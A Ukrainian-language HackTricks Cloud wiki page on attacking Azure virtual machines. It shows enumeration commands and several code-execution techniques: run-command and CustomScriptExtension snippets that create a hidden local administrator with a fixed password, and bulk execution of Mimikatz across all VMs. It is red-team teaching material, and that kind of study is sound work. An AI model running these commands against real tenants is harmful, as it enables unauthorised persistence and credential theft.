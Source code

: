 # Az - Віртуальні машини та мережа

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримка HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## Основна інформація

[З документації:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Віртуальні машини Azure є одним з кількох типів [ресурсів обчислення за запитом, що масштабується](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree), які пропонує Azure. Зазвичай ви обираєте віртуальну машину, коли вам потрібен більший контроль над обчислювальним середовищем, ніж пропонують інші варіанти. Ця стаття надає інформацію про те, що слід врахувати перед створенням віртуальної машини, як її створити та як нею керувати.

## Інформація про мережу Azure

Мережі Azure містять **різні сутності та способи їх налаштування.** Ви можете знайти короткі **описи,** **приклади** та **команди перерахування** різних сутностей мережі Azure в:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** пропонує безпечне, повністю кероване рішення для доступу RDP (протокол віддаленого робочого столу) та SSH (захищена оболонка) через SSL через портал Azure. Він інтегрований у віртуальну мережу Azure, що дозволяє підключення RDP та SSH до ВМ, використовуючи приватні IP-адреси, уникаючи необхідності в публічних IP-адресах. Це робить його більш безпечним і зручним альтернативним варіантом традиційних методів, що включають призначення публічних IP-адрес і налаштування правил NSG для доступу до ВМ. Розробники та IT-персонал можуть безпечно отримувати доступ до ВМ з порталу Azure, використовуючи свої веб-браузери, спрощуючи процес для середовищ розробки та тестування.

Щоб перерахувати всі хости Azure Bastion у вашій підписці, ви можете використовувати наступну команду:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Перерахунок ВМ
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Запуск команд у VM**

### **AAD вхід у VM**

Можливо дозволити доступ користувачам, автентифікованим через AzureAD. Наприклад, намагаючись отримати доступ до **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (важливо **використовувати електронну пошту** з azurecorp, коли намагаєтеся увійти) ви можете отримати помилку, як: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Просто **дотримуйтесь цих інструкцій**, перейшовши на [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) та вказавши код, використовуйте електронну пошту та пароль як облікові дані, і ви зможете підключитися через SSH (якщо у цього користувача достатньо прав для цього: роль `Virtual Machine Administrator Login` або `Virtual Machine User Login`).

### **Запустити команду**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Запустіть розширення користувацького скрипта**

Azure віртуальні машини (VM) розширення - це **невеликі програми**, які забезпечують конфігурацію після розгортання та автоматизацію **завдань** на **Azure VMs**. Наприклад, якщо віртуальна машина потребує встановлення програмного забезпечення, антивірусного захисту або можливості виконувати скрипт всередині, ви можете використовувати розширення VM.

Отже, якщо у вас є доступ для запису, ви можете виконувати довільний код:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) - це інструмент PowerShell, подібний до Ansible, який використовується для налаштування хоста через код. DSC інтегрується з Azure, дозволяючи завантаження специфічних конфігураційних файлів. Ці файли повинні відповідати строгому синтаксису. Зокрема, розширення DSC в Azure може виконувати команди з файлів, які відповідають певним критеріям форматування, навіть якщо синтаксис не є правильним за стандартами DSC, як показано на наданій фігурі.

Виконання цих команд полегшується функцією [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) в Az PowerShell. Вимоги включають файл **.PS1** з визначеною функцією, і файл повинен бути стиснутий у файл **.zip**. Навіть якщо синтаксис може бути неточним для DSC, код все ще буде виконуватись. Однак розширення позначить статус виконання як "невдача", і жоден вихід з команди не буде видимим через те, що статус буде перезаписаний повідомленням про невдачу.

### VM Application Definitions

VM Application Definitions дозволяють повторюване розгортання версійованих додатків на Azure VM. Цей ресурс підтримує розгортання та оновлення додатків на VMs. Для налаштування цього процесу потрібно виконати кілька кроків, що включають команди **`New-AzGalleryApplication`** та **`New-AzGalleryApplicationVersion`** в Az PowerShell.

Виконання додатків або команд через цей метод передбачає **"VMAppExtension"**, яка автоматично встановлюється, коли додаток застосовується до VM. Розширення отримує файл з вказаного URI і називає його точно так, як додаток, без розширення. Щоб правильно виконати файл, поле "ManageActions" у виклику REST API повинно бути налаштоване для перейменування файлу з відповідним розширенням. Налаштування цього методу, після завершення, буде нагадувати структуру, показану на наданій фігурі.

Однак цей метод виконання є відносно повільним, займаючи близько 3-4 хвилин для виконання додатка або команди. Файли, пов'язані з цим процесом, зберігаються в специфічних каталогах (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` для копії додатка та `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` для статусу виконання).

Обидві техніки надають унікальні способи виконання команд та розгортання додатків в Azure середовищах, кожна з яких має свій набір вимог, кроків та міркувань.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) - це функція в Azure, яка дозволяє Runbooks, налаштованим в обліковому записі автоматизації, виконуватись на Azure Virtual Machine (VM), яка є частиною призначеної HWG. Це виконання полегшується через розширення, встановлене на VM, яке розгортає код Runbook на VM. Важливим аспектом цього процесу є те, що фактичні облікові дані не є фактором у виконанні, оскільки код виконується з підвищеними привілеями, зокрема як **SYSTEM** або root, як показано на наданій фігурі.

Ключовою деталлю для тих, хто використовує Windows 10 VMs, є необхідність вказати версію PowerShell для Runbook. Вона повинна бути налаштована на виконання як PowerShell Version 5.1 замість 7.1. Ця вимога виникає з того, що PowerShell 7.1 не встановлений за замовчуванням на цих VMs, що призводить до невдачі виконання скрипту, якщо вказана версія 7.1.

Ця функція Azure пропонує надійний метод для автоматизації та управління завданнями в гібридних середовищах, дозволяючи централізоване управління та виконання завдань на Azure VMs.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
